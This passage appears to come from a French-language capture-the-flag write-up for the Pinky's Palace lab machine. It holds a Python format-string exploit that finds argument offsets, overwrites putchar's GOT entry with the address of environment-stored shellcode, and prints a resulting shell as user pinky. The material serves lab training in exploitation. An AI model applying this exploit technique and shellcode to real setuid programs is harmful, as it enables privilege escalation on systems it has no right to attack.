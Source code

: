 ```python

# Looking for correct args positions and padding
for padding in xrange(0, 4):
    for i in xrange(500):
        arg = "AAAABBBBCCCCDDDD%008x%{0}$.8x%008x%{1}$.8x%008x%{2}$.8x%008x%{3}$.8x012345678912".format(just(i), just(i+1), just(i+2), just(i+3)) + "Z" * padding
        try:
            output = subprocess.check_output([TARGET, arg])
        except subprocess.CalledProcessError:
            continue
        if '41414141' in output and '42424242' in output and '43434343' in output and '44444444' in output:
            print "[*] Buffer starts at offset #", i, "with", padding, "bytes of padding"
            print "[*] String used is:", arg, 'length =', len(arg)
            print "[*] ===== output ====="
            print output
            print "[*] =================="

            # Generating evil format string
            values = split_addr(offset)
            arg  = addresses
            arg += "%{0}c%{1}$hhn%{2}c%{3}$hhn%{4}c%{5}$hhn%{6}c%{7}$hhn012345678912".format(just(values[0]), just(i), just(values[1]), just(i+1), just(values[2]), just(i+2), just(values[3]), just(i+3))
            arg += "Z" * padding
            found = True
            break
    if found:
        break

# Launching binary with the final payload
if found:
    print "[*] Exploiting with format string", repr(arg)
    subprocess.call([TARGET, arg])
```

Mon exploit lance le binaire dans un environnement contrôlé avec le shellcode qui est présent. Il détermine d'abord l'adresse du shellcode dans la mémoire du processus puis génère la chaine de format qui permettra d'écraser `putchar` par l'adresse du shellcode :

```console
pinksecmanagement@pinkys-palace:~$ python fmt.py /usr/local/bin/PSMCCLI
[+] Args: bfffffb8~SHELLCODE=1��F1�f����̀1�j
                                           XQh//shh/bin��̀

[*] Shellcode is at address 0xbfffffc2L in process memory
[*] Buffer starts at offset # 137 with 2 bytes of padding
[*] String used is: AAAABBBBCCCCDDDD%008x%137$.8x%008x%138$.8x%008x%139$.8x%008x%140$.8x012345678912ZZ length = 82
[*] ===== output =====
[+] Args: AAAABBBBCCCCDDDDbffff6b441414141b7ffed0042424242080484a7434343430000000044444444012345678912ZZ

[*] ==================
[*] Exploiting with format string '\x1c\xa0\x04\x08\x1d\xa0\x04\x08\x1e\xa0\x04\x08\x1f\xa0\x04\x08%178c%137$hhn%061c%138$hhn%256c%139$hhn%192c%140$hhn012345678912ZZ'
$ id
uid=1000(pinky) gid=1002(pinksecmanagement) groups=1002(pinksecmanagement)
```
